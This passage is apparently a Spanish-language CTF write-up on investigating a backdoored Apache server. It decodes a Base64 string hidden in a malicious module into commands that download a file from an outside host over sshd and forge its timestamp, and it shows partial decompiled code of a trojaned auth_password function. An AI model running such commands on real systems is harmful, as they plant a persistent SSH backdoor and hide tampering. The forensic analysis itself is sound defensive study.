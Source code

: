 ```console
```

Observamos el archivo `mod_reader.so` _(conocidas como librerías dinámicas por la extensión .so - Shared Object)_ con última fecha de modificación en `May 17`, además tiene relación con el problema ya que los módulos en `apache` sirven para diversas funcionalidades del servidor

Ahora descargamos el archivo a nuestra máquina y vemos que también es un archivo ejecutable, así que extraemos cadenas imprimibles con `strings`:

```console
.....
....
......
d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk
.....
....
.
```

Viendo el formato nos damos cuenta que esta codificado en **Base64**, entonces lo decodeamos y obtenemos estos comandos:

```shell
❯ echo d2dldCBzaGFyZWZpbGVzLnh5ei9pbWFnZS5qcGVnIC1PIC91c3Ivc2Jpbi9zc2hkOyB0b3VjaCAtZCBgZGF0ZSArJVktJW0tJWQgLXIgL3Vzci9zYmluL2EyZW5tb2RgIC91c3Ivc2Jpbi9zc2hk > hiddenB64Data.txt
❯ cat hiddenB64Data.txt | base64 -d | tr ';' '\n' | sed 's/^ //g'
wget sharefiles.xyz/image.jpeg -O /usr/sbin/sshd
touch -d `date +%Y-%m-%d -r /usr/sbin/a2enmod` /usr/sbin/sshd
```
{: .nolineno }

Observamos que se concatena una imagen al binario `sshd` _(Servidor del protocolo SSH)_, y lo que parece sospechoso es que se altera la fecha por el binario `a2enmod` _(Comando para activar los módulos de apache)_

Ya que vemos relación con **SSH** y que el propietario `root` es el único que puede modificar este archivo, podemos descargar dicho archivo a nuestra máquina para analizarlo con mas detalle usando `ghidra` _(herramienta de ingeniería inversa)_:

> Filtramos por la palabra `password` y encontramos algo insteresante:

![GHIDRA/SSHD](ghidra_sshd.png)

Encontramos la función `auth_password` que contiene una variable `backdoor` _(método que permite a cualquier persona eludir medidas de seguridad para acceder de manera remota y como usuario de alto nivel, a un sistema informático sin el conocimiento del propietario)_ que guarda una cadena de carácteres en un arreglo. Veamos a detalle la función:

```c
int auth_password(ssh *ssh,char *password)

{
  Authctxt *ctxt;
  passwd *ppVar1;
  int iVar2;
  uint uVar3;
  byte *pbVar4;
  byte *pbVar5;
  size_t sVar6;
  byte bVar7;
  int iVar8;
  long in_FS_OFFSET;
  char backdoor [31]; // backdoor variable declaration
  byte local_39 [9];
  long local_30;
  
  bVar7 = 0xd6;
```